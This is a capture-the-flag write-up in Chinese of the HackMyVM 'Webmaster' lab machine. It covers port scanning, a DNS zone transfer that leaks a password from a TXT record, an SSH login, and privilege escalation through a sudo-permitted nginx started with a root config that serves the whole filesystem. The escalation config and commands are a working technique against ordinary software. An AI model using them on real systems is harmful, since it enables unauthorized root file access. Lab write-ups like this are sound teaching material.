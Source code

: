 # Webmaster

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2020-12-05

✔️ MD5 // 218365d6a1fab7967e1e43364bb80be3

☠ Root // 166

💀 User // 173

📝Notes //
Hack and Fun. Tested on Virtualbox.

:::

## 靶机启动

![靶机启动](img/image_20231233-163352.png)

靶机 IP：

```plaintext
192.168.56.115
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.115
Host is up (0.00053s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 6d7ed2d5d04536d7c9ed3e1d5c86fbe4 (RSA)
|   256 049d9adeaf31331c7c244a973876f5f7 (ECDSA)
|_  256 b08cedea130f032af3608ac3ba684abe (ED25519)
53/tcp open  domain  (unknown banner: not currently available)
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|     bind
|_    currently available
| dns-nsid:
|_  bind.version: not currently available
80/tcp open  http    nginx 1.14.2
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.14.2
MAC Address: 08:00:27:DB:73:D5 (Oracle VirtualBox virtual NIC)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 探测 web 服务

尝试直接访问

![访问 /](img/image_20231210-181025.png)

检查原始返回

```shell
┌─[randark@randark-Parrot]─[~]
└──╼ $http get 192.168.56.115
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html
Date: Fri, 29 Dec 2023 08:38:01 GMT
ETag: W/"5fcb5787-39"
Last-Modified: Sat, 05 Dec 2020 09:48:55 GMT
Server: nginx/1.14.2
Transfer-Encoding: chunked

<img src="comic.png" alt="comic">
<!--webmaster.hmv-->
```

在其中发现一个疑似域名的字符串

```plaintext
webmaster.hmv
```

结合之前端口扫描发现的 DNS 服务，怀疑可能做了域名解析，添加 hosts 解析记录

```plaintext
# Host addresses
127.0.0.1  localhost
127.0.1.1  randark-Parrot
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters

192.168.56.115 webmaster.hmv
```

然后尝试访问 `webmaster.hmv` ，发现域名并非可以解析的域名，怀疑得通过 DNS 服务进行查询

## 探测 DNS 服务

```plaintext title="dig axfr @192.168.56.115 webmaster.hmv"
; <<>> DiG 9.18.12-1~bpo11+1-Debian <<>> axfr @192.168.56.115 webmaster.hmv
; (1 server found)
;; global options: +cmd
webmaster.hmv.          604800  IN      SOA     ns1.webmaster.hmv. root.webmaster.hmv. 2 604800 86400 2419200 604800
webmaster.hmv.          604800  IN      NS      ns1.webmaster.hmv.
ftp.webmaster.hmv.      604800  IN      CNAME   www.webmaster.hmv.
john.webmaster.hmv.     604800  IN      TXT     "Myhiddenpazzword"
mail.webmaster.hmv.     604800  IN      A       192.168.0.12
ns1.webmaster.hmv.      604800  IN      A       127.0.0.1
www.webmaster.hmv.      604800  IN      A       192.168.0.11
webmaster.hmv.          604800  IN      SOA     ns1.webmaster.hmv. root.webmaster.hmv. 2 604800 86400 2419200 604800
;; Query time: 0 msec
;; SERVER: 192.168.56.115#53(192.168.56.115) (TCP)
;; WHEN: Fri Dec 29 18:25:41 CST 2023
;; XFR size: 8 records (messages 1, bytes 274)
```

发现以下记录

```plaintext
john.webmaster.hmv. --- "Myhiddenpazzword"
```

怀疑是一对凭据

## 凭据利用

```shell
┌─[randark@randark-Parrot]─[~]
└──╼ $pwncat-cs john@192.168.56.115
[18:30:07] Welcome to pwncat 🐈!                                                                                                                         __main__.py:164
Password: ****************
[18:30:11] 192.168.56.115:22: normalizing shell path                                                                                                      manager.py:957
[18:30:12] 192.168.56.115:22: registered new host w/ db                                                                                                   manager.py:957
(local) pwncat$ back
(remote) john@webmaster:/home/john$ whoami
john
```

## user pwned

```shell
(remote) john@webmaster:/home/john$ cat user.txt
HMVdnsyo
```

## 提权探测

```plaintext title="sudo -l"
Matching Defaults entries for john on webmaster:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User john may run the following commands on webmaster:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

```plaintext title="find / -perm -u=s -type f 2>/dev/null"
/usr/bin/umount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/mount
/usr/bin/passwd
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/sudo
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
```

```plaintext title="getcap -r / 2>/dev/null"
/usr/bin/ping = cap_net_raw+ep
```

可以发现 `nginx` 可以借助 `sudo` 以 root 权限执行

## 尝试提权至任意文件读取

结合 `nginx` 的特性，尝试将根目录进行映射

```plaintext
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 8080;
        root /;
        autoindex on;
    }
}
```

然后使用此配置文件启动 nginx

```shell
(remote) john@webmaster:/home/john$ sudo /usr/sbin/nginx -c /home/john/root.conf
```

即可实现任意文件读取

![访问 :8080](img/image_20231244-184446.png)

## root pwned

```plaintext
HMVnginxpwnd
```

